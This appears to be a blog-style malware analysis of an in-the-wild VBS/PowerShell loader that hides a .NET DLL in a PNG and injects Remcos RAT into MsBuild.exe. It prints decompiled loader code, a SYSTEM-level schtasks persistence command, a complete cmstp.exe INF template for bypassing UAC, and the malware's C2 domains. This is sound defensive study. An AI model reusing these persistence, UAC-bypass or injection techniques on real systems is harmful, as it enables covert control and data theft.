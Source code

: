 At the time of writing it is around a day that malicious script appeared in wild. To practice and improve myself I chose this malware.

For now in virustotal, it can be seen that malware is only detected by 9 AVs and the server for downloading second payload (*png* file) is still available to be downloaded. 

Starting with analysis, The file's size is really big but only reason for it was repeat of same 10 lines. 
![1|500](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/1.png?raw=true)

Using ASCII table we can replace all occurrences of these variables with their Char values.

At first it looked like it is only repeating same 10 line for increasing file size (to look legit), but one more reason was probably trying to hide obfuscated code. (Maybe not but only good explanation is this)
![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/2.png?raw=true)

At first it might not make sense but you can obviously see same pattern repeat in obfuscated code:
`"⏳लბ⣿༑₫ᨑԿ🖲ᅫҌ⊣ሒȪ⟚"`

and payload use `categorised(ByVal inputText)` function to deobfuscate it. (By removing repeating line)
![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/3.png?raw=true)

In this situation manually writing deobfuscater  would be possible to but, it is waste of time. I just changed `dozens = categorised(dozens)` with `WScript.Echo categorised(dozens)` (Don't forget to only copy necessary parts in new file to avoid running something dangerous). I ran the code using **cscript.exe** to see output in my **cmd**.

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/4.png?raw=true)

Now to deobfuscate, we need to replace '#' with 'A' and convert base64 to string. Once again instead of using cyberchef I just run powershell code with removing `Invoke-Expression` and beautify it a little bit. This is the code that downloads second file. (png)

![1|800](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/5.png?raw=true)
A day later, the malicious file was deleted from server but I installed it before, so I can continue my analysis. I will also upload file to **malware bazaar** for anyone that needs it to analyse on his own.

This image file has Data starting with '<<BASE64_START>>' and ends with '<<BASE64_END>>' after decoded it is uploaded to memory but I modified code and used function:
```ps1
[System.IO.File]::WriteAllBytes("C:\dnlib_image.dll", $cleared)
```

to save it in a file and when we load this dll to dnspy-x86, it loads it as `Microsoft.Win32.TaskScheduler, Version=1.1.0.0` and dnlib inside, which is necessary part of us:
![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/6.png)

You can check out [Robson Felix's VMDetector](https://github.com/robsonfelix/VMDetector)to understand how it works. I modified qemu strings in my system so I have 0 "qemu" string, which helps me avoid detection. this script is really basic as it checks for only "qemu" (easy to stay undetected). 
Note: Even though this malware has function to check detect vms, it doesn't use it. (if you remember the arguments given when VAI is called, they are necessary part of this function)

In next line we can see the malicious code calling specific function that is interesting for us, **VAI**.

![1|1000](https://github.com/basicacc/basicacc.github.io/blob/main/My_analysis/Malware_4/7.png?raw=true)


some of the variable names are written in Spanish, which might be a tip for malware writer being Spanish. (Of course, it is not a guarantee) 

I have written custom code in C# to be able to manually debug this dll. 

The functions, VAI didn't use: persistence, startuptask, startupreg (even though it could). (To make it clear these are not function names, these are variables)

Moving on, startup_onstart is actually used, let's understand what it does.
Before understanding the function, I retrivied Hashtable values that are used through dll and saved all of them to single file to make analysis easier.

This is the part we have to analyze now:
```csharp
if (flag12)
{
	bool flag13 = !File.Exists(Path.Combine(caminho, nomedoarquivo + \uE11C.\uE000(12567) + extençao));
	bool flag14 = flag13;
	if (flag14)
	{
		Process.Start(new ProcessStartInfo
		{
			WindowStyle = ProcessWindowStyle.Hidden,
			FileName = \uE11C.\uE000(12607), // "cmd.exe"
			Arguments = string.Concat(new string[]
			{
				// "/C copy *."
				\uE11C.\uE000(12599),
				// "vbs"
				extençao,
				// " \""
				\uE11C.\uE000(12770),
				//  1. @"C:\ProgramData" 2. "millipascals"
				Path.Combine(caminho, nomedoarquivo), 
				// "."
				\uE11C.\uE000(12567),
				// "vbs"
				extençao,
				// "\""
				\uE11C.\uE000(12282)
			})
		}).WaitForExit();
	}
	Loader.ExecutarMetodoVAI(taskname, caminho, nomedoarquivo, extençao);
}
```

Basically checks if file exists, if not, starts new process: 
`cmd.exe /C copy *.vbs "C:\ProgramData\millipascals.vbs" 
copies the vbs file to its new location.

**ExecutarMetodoVAI** is called with arguments: `"blinkered" @"C:\ProgramData"	"millipascals" "vbs"`

at first line, function searches for specific string in resources:
`string text = Array.Find<string>(Assembly.GetExecutingAssembly().GetManifestResourceNames(), new Predicate<string>(Loader.<>c.<>9.\uE000));`

When using dnspy, it hides compiler generated types and modules by default which you need to enable.

The `(Loader.<>c.<>9.\uE000)` sets condition **true** if "string" ends with "UAC.dll"
and in next lines, first stream is loaded into an array and array was loaded to caller program (powershell):
```C#
byte[] array;
using (Stream manifestResourceStream = Assembly.GetExecutingAssembly().GetManifestResourceStream(text))
{
	using (MemoryStream memoryStream = new MemoryStream())
	{
		manifestResourceStream.CopyTo(memoryStream);
		array = memoryStream.ToArray();
	}
}
Assembly assembly = Assembly.Load(array);
```


and calls "Main" method in UAC.dll (type:UAC.Program).

![1|800](https://raw.githubusercontent.com/basicacc/basicacc.github.io/refs/heads/main/My_analysis/Malware_4/8.png)

Which I will use new custom script to run it and debug manually.

First thing "UAC.dll" does is create a new string:
`@"cmd.exe /c powershell -Command ""schtasks /Create /TN 'blinkered' /TR 'wscript.exe C:\ProgramData\millipascals.vbs' /SC ONSTART /RL HIGHEST /RU SYSTEM /F"""` with given parameters.

* Generates new inf file under temporary path.
* Changes "REPLACE_COMMAND_FILE" in `private static string INF_TEMPLATE = "[version]\r\nSignature=$chicago$\r\nAdvancedINF=2.5\r\n\r\n[DefaultInstall]\r\nCustomDestination=CustInstDestSectionAllUsers\r\nRunPreSetupCommands=RunPreSetupCommandsSection\r\n\r\n[RunPreSetupCommandsSection]\r\nREPLACE_COMMAND_LINE\r\ntaskkill /IM cmstp.exe /F\r\n\r\n[CustInstDestSectionAllUsers]\r\n49000,49001=AllUSer_LDIDSection, 7\r\n\r\n[AllUSer_LDIDSection]\r\n\"HKLM\", \"SOFTWARE\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\App Paths\\\\CMMGR32.EXE\", \"ProfileInstallPath\", \"%UnexpectedError%\", \"\"\r\n\r\n[Strings]\r\nServiceName=\"CorpVPN\"\r\nShortSvcName=\"CorpVPN\"";` with the command created before.
* writes this to inf file.

Part 2:
* Checks if file: "C:\Windows\system32\cmstp.exe" exists.
* if it does, Start new process: `C:\Windows\system32\cmstp.exe /au "<inf_file_path>"`
* Basically creates new process to run at every startup for persistence purposes.
* Why use cmstp.exe? To avoid some detections.

That's all with UAC.dll, now we have to go back to `dnlib.IO.Home.VAI`.

To sum up, in next steps malicious dll function launches MsBuild.exe and modifies its code and resumes thread.

* new process: MsBuild.exe created.
* Allocate new space
* Write the malicious program at address: 0x400000

What I did was copy every data that is written and combine them to get a single exe file (Microsoft Visual C++ 8)

```console
copy /b to400000.bin+to401000.bin+to459000.bin+to472000.bin+to478000.bin+to47D000.bin combined.exe
```

So, the reason malware loads the exe file into MsBuild.exe is actually utilizing its capabilities (and hiding). So it might be possible to debug program alone but it is hard, so I will just debug it inside MsBuild.exe. I also found a key point in code like this:
`unaff_ESI = FUN_0040e560(0x400000,0,pcVar7);` which I guess probably where we need to start from, because inside this function, it is also prossible to clearly see some interesting strings.
The strings clearly indicate the capabilities of malware: RAT, keylogger, stealer, logger.

By the way, Remcos RAT is available [here](https://breakingsecurity.net/remcos/free/) to explore its capabilities.

After analyzing the exe file, the key points that can be addressed is:

1. Malware use GetProcAddress function to find address of the functions it is going to use (which can make static analysis a little bit difficult), but you can basically change heap variable name's function name (for example in ghidra)
2. Malware keep trying to connect with "relentlesswicked.duckdns.org"/"relentless.webredirect.org", which it can't, because it is down.
3. The rest is specifically about remcos itself which if needed can be analyzed on its own, and it is not that hard as it is not packed or obfuscated.
